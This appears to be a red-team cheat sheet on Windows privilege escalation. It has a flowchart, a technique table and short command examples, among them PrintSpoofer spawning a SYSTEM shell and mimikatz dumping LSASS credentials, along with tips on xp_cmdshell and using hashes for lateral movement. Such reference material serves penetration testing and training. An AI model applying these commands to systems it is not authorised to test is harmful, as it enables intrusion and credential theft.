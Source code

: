 _Goal: Elevate privileges from a standard domain user or local user to administrator or SYSTEM level._

---

### **Objectives**

- Escalate from a low-privileged user to SYSTEM or local admin
    
- Identify misconfigurations, credentials, or service abuse opportunities
    
- Prepare for lateral movement or credential dumping
    

---


```mermaid
graph TD
    A[Initial Low Priv Access] --> B[Enumerate Privileges and Group Membership]
    B --> C[Check for Misconfigurations or Weak Services]
    B --> D[Look for Credentials or Password Reuse]
    C --> E[Exploit Service or Task for SYSTEM Shell]
    D --> E
    E --> F[Access to LSASS, SAM, or Registry]
    F --> G[Dump Hashes or Tokens]
```

  

---

### **Techniques and Tools**

|**Task**|**Tool/Command**|**Notes**|
|---|---|---|
|UAC Bypass|Invoke-BypassUAC, fodhelper, eventvwr tricks|Requires medium integrity token|
|Unquoted Service Paths|wmic service get name,displayname,pathname,startmode|Escalate if write access exists in service path|
|AlwaysInstallElevated|reg query HKCU\Software\Policies\Microsoft\Windows\Installer|If set to 1, MSI files can install as SYSTEM|
|Scheduled Tasks Abuse|schtasks, Get-ScheduledTask|Find misconfigured or writable scheduled tasks|
|DLL Hijacking|Procmon, Process Explorer|Load malicious DLL into privileged service|
|Credential Files|Search for .kdbx, .xml, .config, unattend.xml|Look for hardcoded or plaintext passwords|
|Token Manipulation|whoami /priv, mimikatz token::elevate|Impersonate available tokens or escalate with SeImpersonate|
|Print Spooler Exploits|PrintSpoofer.exe, SpoolSample|Abuse SeImpersonatePrivilege to elevate to SYSTEM|
|Service Permissions|accesschk.exe, Get-Service|Look for services with Start, ChangeConfig permission|

  

---

### **Example: PrintSpoofer to SYSTEM**

```
PrintSpoofer64.exe -i -c powershell.exe
```

  

---

### **Example: Unquoted Service Path Discovery**

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
```

  

---

### **Example: Dumping LSASS with Mimikatz**

```
sekurlsa::logonpasswords
```

  

---

### **Pro Tips**

- If on a SQL Server, try enabling xp_cmdshell to execute commands as the SQL service account
    
- Use SharpUp.exe or Seatbelt.exe for automated checks
    
- Hashes from lsass or SAM enable lateral movement or DA impersonation
    
- Check for dropped tools or DLLs in C:\ProgramData, C:\Temp, or Public\Documents
    
